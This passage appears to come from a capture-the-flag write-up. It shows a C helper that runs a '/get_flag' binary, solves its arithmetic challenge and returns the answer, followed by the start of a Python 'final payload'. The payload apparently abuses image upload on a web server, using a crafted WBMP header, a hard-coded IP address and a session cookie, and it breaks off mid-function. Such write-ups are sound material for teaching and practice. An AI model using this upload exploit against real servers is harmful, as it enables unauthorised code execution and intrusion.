 ```c

  pipe(inpipefd);
  pipe(outpipefd);
  pid = fork();
  if (pid == 0)
  {
    dup2(outpipefd[0], STDIN_FILENO);
    dup2(inpipefd[1], STDOUT_FILENO);
    dup2(inpipefd[1], STDERR_FILENO);
    prctl(PR_SET_PDEATHSIG, SIGTERM);
    execl("/get_flag", "get_flag", (char*) NULL);
    exit(1);
  }

  close(outpipefd[0]);
  close(inpipefd[1]);

        char data[0xff] = {0};
        read(inpipefd[0], data, 0xff);

        uint64_t sum = 0;
        char *pch;
        printf("Raw : %s\n", data);
        pch = strtok (data+34, "+");
        printf("Sum : %llu\n", sum);
        while (pch != 0)  {
                sum += strtoull(pch, 0, 10);
                printf("Operation : %llu\n", atol(pch));
                printf("Sum : %llu\n", sum);
                pch = strtok (0, "+");
        }

        char result[32] = {0};
        sprintf(result, "%llu\n", sum);
        printf("Result : %llu\n", sum);

        write(outpipefd[1], result, 16);
        memset(data, 0, 0xff);
        read(inpipefd[0], data, 0xff);
        printf("Final : %s", data);
}
```

Final payload

```python
#!/usr/bin/env python3

import requests
import base64

VALID_WBMP = b"\x00\x00\x8a\x39\x8a\x39\x00\x00\x00\x00\x00\x0a\x0a"
URL = "http://35.246.234.136/"
RANDOM_DIRECTORY = "ad759ad95e5482e02a15c5d30042b588b6630e64"

COOKIES = {
    "PHPSESSID" : "0e7eal0ji7seg6ac3ck7d2csd8"
}

def upload_content(name, content):

    data = {
        "image" : (name, content, 'image/png'),
        "upload" : (None, "Submit Query", None)
```